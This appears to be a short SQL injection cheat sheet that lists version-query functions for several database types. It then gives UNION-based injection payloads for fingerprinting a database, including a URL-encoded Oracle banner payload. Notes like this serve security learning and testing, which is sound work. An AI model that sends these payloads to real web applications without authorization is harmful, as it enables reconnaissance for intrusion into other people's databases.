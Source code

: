# Querying the database type and version

The following are some queries to determine the database version for some popular database types:

Database type                            Query<br>
Microsoft, MySQL--                         `SELECT @@version`<br>
Oracle       --                            `SELECT * FROM v$version`<br>
Postgresql        --                       `SELECT version()`<br>


For example, you could use a `UNION` attack with the following input:

```bash
' UNION SELECT @@version--
```
Payload for Oracle
`'+UNION+SELECT+BANNER,+NULL+FROM+v$version--`
